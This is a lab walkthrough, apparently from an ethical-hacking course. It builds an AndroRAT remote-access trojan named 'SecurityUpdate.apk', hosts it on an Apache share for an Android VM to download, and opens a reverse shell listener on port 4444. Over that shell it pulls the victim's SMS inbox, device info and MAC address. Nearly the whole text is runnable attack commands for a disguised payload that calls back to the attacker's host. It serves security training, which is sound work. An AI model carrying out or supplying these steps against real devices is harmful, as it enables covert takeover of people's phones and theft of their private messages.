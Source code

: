 - Build the APK using AndroRAT.
  ```bash
  python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
  ```

- Copy the APK to the share folder.
  ```bash
  cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/
  ```

- If the share folder doesn't exist, create it and set the required permissions.
  ```bash
  mkdir /var/www/html/share
  chmod -R 755 /var/www/html/share
  chown -R www-data:www-data /var/www/html/share
  ```

- Start the Apache web server.
  ```bash
  service apache2 start
  ```

- Start listening for the victim's machine.
  ```bash
  python3 androRAT.py --shell -i 0.0.0.0 -p 4444
  ```

- On the Android virtual machine, launch the browser and visit http://10.10.1.13/share to download the APK.

- Install the malicious app on the Android VM.

- Switch back to Parrot Security. The Interpreter session is open (victim's IP: 10.10.1.14).

- View available commands in the Interpreter session.
  ```bash
  help
  ```

- View device information.
  ```bash
  deviceInfo
  ```

- Obtain SMS from the victim's inbox.
  ```bash
  getSMS inbox
  ```

- View the MAC address of the victim's device.
  ```bash
  getMACAddress
  ```

- Execute additional commands for more information.

- Terminate the Interpreter session.
  ```bash
  exit
  ```
